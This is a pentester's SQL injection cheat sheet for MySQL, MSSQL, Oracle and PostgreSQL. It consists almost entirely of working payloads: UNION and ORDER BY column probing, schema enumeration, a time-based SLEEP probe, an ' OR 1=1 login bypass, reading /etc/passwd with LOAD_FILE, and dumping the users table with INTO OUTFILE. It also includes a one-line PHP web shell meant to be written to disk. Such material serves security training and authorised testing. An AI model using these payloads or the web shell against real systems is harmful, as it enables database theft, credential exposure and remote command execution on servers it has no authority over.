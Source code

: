 [[mssql]] [[mysql]] [[oracle]] [[postgresql]]
cheat-sheet/cheatsheet/cheat sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

##### Detect type and version
mssql, mysql - `select @@version`
oracle - `select * from v$version`
postgresql - `select version()`

#### Get database
mysql - database()
postgresql - current_database()


##### Detect number of original query columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
etc. until error occurs
or
until success
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--`
```
##### Useful queries
* `SELECT * FROM information_schema.tables`
* `SELECT table_name FROM information_schema.tables`
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt


#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file

```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```